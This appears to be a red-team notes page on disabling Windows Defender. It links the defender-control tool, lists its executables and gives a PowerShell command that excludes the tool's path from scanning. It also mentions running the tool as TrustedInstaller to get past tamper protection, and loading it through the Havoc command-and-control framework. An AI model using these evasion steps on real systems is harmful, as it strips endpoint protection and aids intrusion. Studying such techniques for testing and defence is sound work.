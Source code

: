 >[!note] There is always a possibility of breaking Windows de
```
https://github.com/qtkite/defender-control

jeffco/offensive/exe/disable-defender.exe
jeffco/offensive/exe/enable-defender.exe

Add-MpPreference -ExclusionPath c:\windows\tasks\disable-defender.exe
```

disable-defender is able to disable Windows Defender even with tamper protection enabled by running as trusted installer.

https://github.com/qtkite/defender-control?tab=readme-ov-file#what-does-it-do

```
As this is a PE32, it can be ran from noconsolation in Havoc.
```